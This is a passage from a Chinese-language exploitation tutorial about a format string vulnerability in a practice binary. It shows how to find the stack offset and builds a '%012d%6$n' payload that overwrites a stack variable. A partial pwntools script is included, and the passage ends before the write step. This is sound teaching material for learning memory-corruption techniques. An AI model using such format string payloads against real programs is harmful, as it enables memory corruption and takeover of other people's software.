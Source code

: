 在0xffffd004处存储着0x315=789，是变量c的值。继而，再确定自定义格式化字符串s[也是栈变量]即'test_string的地址0xffffd008相对于printf函数的格式化字符串参数0xffffcff0的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。


注：通过一个断点暂停处[ printf("%p\n", &c);]我们可以知道栈变量c的存储位置：0xffffd004，与上述一致。

![确定c变量的地址](/assets/img/cover3.jpg)

### 3.进行覆盖 ###

第6个参数处的值就是存储变量s的地址，我们便可以利用%n的特征来修改栈变量c的值。payload如下

> [addr of c]...[padings]...%6$n

[addr of c]的长度为4字节，故而我们得再使printf输出12个字符才可以达到16个字符，以便于来修改c的值为16。【回顾n类型的作用就可知】

所以最终的payload为：

> [addr of c]%012d%6$n


具体脚本为：

	#!/usr/bin/python
	from pwn import *
	re = process('./cover')
	
	raw_addr=re.recvuntil('\n',drop=True) #drop=True则丢弃\n
	c_addr = int(raw_addr,16) #将字符串转化成整数，解析过程：16进制方式。也就是16进制数的字符串形式变成10进制数
	print hex(c_addr) #将10进制数以16进制数方式打印
	